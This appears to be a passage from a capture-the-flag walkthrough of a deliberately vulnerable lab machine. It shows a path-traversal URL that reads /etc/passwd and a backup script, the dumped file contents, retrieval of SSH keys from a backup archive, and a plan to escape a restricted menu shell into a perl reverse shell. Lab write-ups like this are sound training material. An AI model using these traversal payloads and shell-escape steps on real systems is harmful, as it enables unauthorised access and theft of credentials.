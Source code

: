 **

Thanks nikto!

http://192.168.118.189/index.php?page=../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:109::/var/run/dbus:/bin/false mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false lxd:x:108:65534::/var/lib/lxd/:/bin/false uuidd:x:109:114::/run/uuidd:/bin/false dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:112:1::/var/cache/pollinate:/bin/false bob:x:1000:1000:bob,,,:/home/bob:/bin/bash Debian-exim:x:113:119::/var/spool/exim4:/bin/false peter:x:1001:1001:,,,:/home/peter:/bin/bash paul:x:1002:1002:,,,:/home/paul:/usr/bin/pdmenu backup-user:x:1003:1003:Just to make backups easier,,,:/backups:/usr/local/scripts/backup.sh

***

/usr/local/scripts/backup.sh

http://192.168.118.189/index.php?page=../../../../../../../../../../usr/local/scripts/backup.sh

#!/bin/bash ######################## # Server Backup script # ########################
#Backup directories in /backups so we can get it via tftp
echo "Backing up data" tar -cf /backups/backup.tar /home /var/www/html > /dev/null 2& > /dev/null
echo "Backup complete"

Interesting, I used wget to pull the backup file.....and killed the transfer after about 1GB.

Digging in the file with less I found some keys in paul's folder.  key4 got me into PDmenu.

Fun, lets start by looking at the admin.php file.  See if there is any credentals.

OH!  Isn't that cute....

if(strpos($_POST['email'], '\'') !== false) {
        echo  "<strong>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 6</strong>";
}else{
        echo  "<strong>Incorrect Username or Password!</strong>";


__

Using PDMenu I can read the www directory, but not write to it.  No php-reverse-shell for me.  The ping and telnet options truncate any extra commands....but the edit menu doesn't!

No python on the server, but there is perl.  Let's try a reverse shell from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
